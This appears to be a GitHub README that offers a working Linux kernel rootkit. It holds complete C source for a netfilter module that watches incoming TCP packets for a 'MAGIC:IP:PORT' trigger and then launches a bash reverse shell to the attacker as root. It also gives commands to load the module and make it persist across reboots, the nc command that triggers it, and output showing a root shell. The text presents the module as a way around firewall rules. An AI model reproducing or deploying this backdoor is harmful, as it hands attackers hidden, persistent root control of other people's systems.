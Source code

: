 # netfilter kernel backdoor

> What is a netfilter?

```
Netfilter is a framework within the Linux kernel that allows for packet filtering, 
network address translation (NAT), and other network-related manipulations...

More info: https://www.digitalocean.com/community/tutorials/a-deep-dive-into-iptables-and-netfilter-architecture
```

> [!NOTE]
>
> The `POC` provided in this script may not work on different kernels. It has been tested on `Linux 6.12.12-amd64`

This method aims to use `netfilter` to create a kernel loadable module that will be executed automatically once injected. Please note that in `dmesg` (kernel logs), you can find all logs related to the spawning of the reverse shell. Again, this repo does not want to provide `FUD` payloads but just shows basic techniques.

The code that we want to load in the kernel will be similar to this:

```c
#include <linux/kernel.h>
#include <linux/module.h>
#include <linux/netfilter.h>
#include <linux/netfilter_ipv4.h>
#include <linux/ip.h>
#include <linux/tcp.h>
#include <linux/skbuff.h>
#include <linux/kmod.h>
#include <linux/string.h>
#include <linux/slab.h>
#include <linux/workqueue.h>

MODULE_LICENSE("GPL");
MODULE_AUTHOR("Researcher");
MODULE_DESCRIPTION("Bash Reverse Shell Netfilter Module");

#define MAGIC_PREFIX "MAGIC:"
#define MAGIC_PREFIX_LEN 6

static struct nf_hook_ops nfho;

struct backdoor_work {
    char ip[16];
    char port[6];
    struct work_struct work;
};
static struct workqueue_struct *wq;

static void execute_reverse_shell(struct work_struct *work) {
    struct backdoor_work *bwork = container_of(work, struct backdoor_work, work);
    char cmd[256];
    
    // Create pure bash reverse shell command
    snprintf(cmd, sizeof(cmd), 
             "/bin/bash -c 'bash -i >& /dev/tcp/%s/%s 0>&1'",
             bwork->ip, bwork->port);
             
    char *argv[] = { "/bin/bash", "-c", cmd, NULL };
    char *envp[] = { "HOME=/", "TERM=xterm", "PATH=/sbin:/bin:/usr/sbin:/usr/bin", NULL };

    printk(KERN_INFO "Executing reverse shell to %s:%s\n", bwork->ip, bwork->port);
    call_usermodehelper(argv[0], argv, envp, UMH_WAIT_PROC);
    kfree(bwork);
}

unsigned int backdoor_hook(void *priv, struct sk_buff *skb, const struct nf_hook_state *state) {
    struct iphdr *iph;
    struct tcphdr *tcph;
    char *data;
    unsigned int data_len;

    if (!skb || skb_linearize(skb) < 0)
        return NF_ACCEPT;

    iph = ip_hdr(skb);
    if (iph->protocol != IPPROTO_TCP)
        return NF_ACCEPT;

    tcph = tcp_hdr(skb);
    data = (char *)((unsigned char *)tcph + (tcph->doff * 4));
    data_len = skb->len - (data - (char *)skb->data);

    if (data_len <= MAGIC_PREFIX_LEN || strncmp(data, MAGIC_PREFIX, MAGIC_PREFIX_LEN) != 0)
        return NF_ACCEPT;

    char *start = data + MAGIC_PREFIX_LEN;
    char *sep = memchr(start, ':', data_len - MAGIC_PREFIX_LEN);
    if (!sep || (sep - start) >= 16)
        return NF_ACCEPT;

    char ip[16] = {0};
    char port[6] = {0};
    unsigned int ip_len = sep - start;
    unsigned int port_len = data_len - (sep - data) - 1;
    
    if (port_len >= sizeof(port))
        return NF_ACCEPT;

    memcpy(ip, start, ip_len);
    memcpy(port, sep + 1, port_len);
    ip[ip_len] = '\0';
    port[port_len] = '\0';

    printk(KERN_INFO "[+] Received MAGIC payload: %s:%s\n", ip, port);

    // Schedule work for safe execution
    struct backdoor_work *bwork = kmalloc(sizeof(*bwork), GFP_ATOMIC);
    if (!bwork) {
        printk(KERN_ERR "Failed to allocate work struct\n");
        return NF_ACCEPT;
    }
    
    strscpy(bwork->ip, ip, sizeof(bwork->ip));
    strscpy(bwork->port, port, sizeof(bwork->port));
    INIT_WORK(&bwork->work, execute_reverse_shell);
    
    if (!queue_work(wq, &bwork->work)) {
        printk(KERN_WARNING "Work already queued, freeing\n");
        kfree(bwork);
    }

    return NF_ACCEPT;
}

static int __init backdoor_init(void) {
    // Create workqueue
    wq = create_singlethread_workqueue("reverse_shell_wq");
    if (!wq)
        return -ENOMEM;

    // Register netfilter hook
    nfho.hook = backdoor_hook;
    nfho.hooknum = NF_INET_PRE_ROUTING;
    nfho.pf = PF_INET;
    nfho.priority = NF_IP_PRI_FIRST;
    nf_register_net_hook(&init_net, &nfho);
    
    printk(KERN_INFO "[*] Reverse shell module loaded\n");
    return 0;
}

static void __exit backdoor_exit(void) {
    nf_unregister_net_hook(&init_net, &nfho);
    if (wq) {
        flush_workqueue(wq);
        destroy_workqueue(wq);
    }
    printk(KERN_INFO "[-] Reverse shell module unloaded\n");
}

module_init(backdoor_init);
module_exit(backdoor_exit);
```

# How does it work?

Basically, what we're doing is intercepting TCP packets at a low level and extracting some info from each packet. The TCP packet payload will look like this: `MAGIC:IP:PORT`. So when there is an incoming connection, the module will start to inspect the TCP payload and check if it matches the already described pattern. If yes, an attempt to spawn a reverse shell on a specified IP and PORT will be tried. We can bypass firewall rules as checks by Netfilter are done before reaching any firewall rule.


> [!TIP]
>
> When debugging the kernel module you can use `sudo dmesg -Tw` for retrieving kernel logs interactively. To check if the module is loaded you can use `lsmod | grep "netfilter_backdoor"`

# Exploit 

1. Compile and load the module using the provided [Makefile](Makefile)

```bash
make clean 
sudo make remove # if loaded previously
sudo make # compile 
sudo make insert # load at runtime
sudo make install # make the module persistent for system rebooting, do this only if everything go well
```

other commands

```bash
sudo make remove # remove module loaded at runtime
sudo make uninstall # remove module from booting 
```

2. Obtain a shell 

- Use `echo -n "MAGIC:REV_SHELL_HOST:REV_PORT" | nc TARGET_IP WHATEVER_OPENED_PORT`

> [!IMPORTANT]
>
> Remember to specify an opened port on the remote service. The most common opened port is `53` for `DNS`.
> If you don't specify an opened port you will get
> ```
> (UNKNOWN) [192.168.1.35] 80 (http) : Connection refused
> ```
> `sudo netstat -tupln` will return a list of opened ports.

```bash
listening on [any] 7777 ...
connect to [172.28.109.117] from (UNKNOWN) [172.28.96.1] 20126
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell
┌─[root@parrot]─[/]
└──╼ #whoami
whoami
root
┌─[root@parrot]─[/]
└──╼ #
```
